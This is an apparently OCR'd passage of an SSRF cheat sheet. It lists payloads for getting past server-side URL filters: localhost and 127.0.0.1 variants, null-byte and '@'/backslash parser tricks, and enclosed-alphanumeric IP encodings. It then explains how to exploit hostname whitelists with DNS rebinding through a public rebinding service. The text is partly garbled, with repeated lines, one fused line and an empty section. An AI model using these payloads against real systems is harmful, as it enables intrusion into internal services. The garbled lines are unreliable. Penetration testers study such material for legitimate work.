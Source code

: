 ```bash
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:80\@127.2.2.2:80/
127.1.1.1:80\@@127.2.2.2:80/
127.1.1.1:80:\@@127.2.2.2:80/
127.1.1.1:80#\@127.2.2.2:80/
```

### hosts file bypass attempts[](https://highon.coffee/blog/ssrf-cheat-sheet/#hosts-file-bypass-attempts)

### Enclosed Alphanumeric[](https://highon.coffee/blog/ssrf-cheat-sheet/#enclosed-alphanumeric)

```bash
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
```

## DNS rebinding attempts[](https://highon.coffee/blog/ssrf-cheat-sheet/#dns-rebinding-attempts)

### What is a DNS rebinding attack?[](https://highon.coffee/blog/ssrf-cheat-sheet/#what-is-a-dns-rebinding-attack)

In certain situations a target function may check a hostname “blindly” against a whitelist/blacklist without verification of the the resolution IP address. Once the hostname has been determined OK by the above function it is then passed to the function which it is intended to protect.

### How to exploit a vulnerable function[](https://highon.coffee/blog/ssrf-cheat-sheet/#how-to-exploit-a-vulnerable-function)

You can setup a DNS server that resolves to the whitelist, then have a short TTL which changes to the IP you want to exploit e.g. 127.0.0.1 for SSRF, or any other internal IP.

Fortunately taviso has built a [service for this](https://github.com/taviso/rbndr) which you can use to generate a dword subdomain and use against your target. The downside to this service is that it appears to flip the resolution IP back and forth, so it may change during the attack.

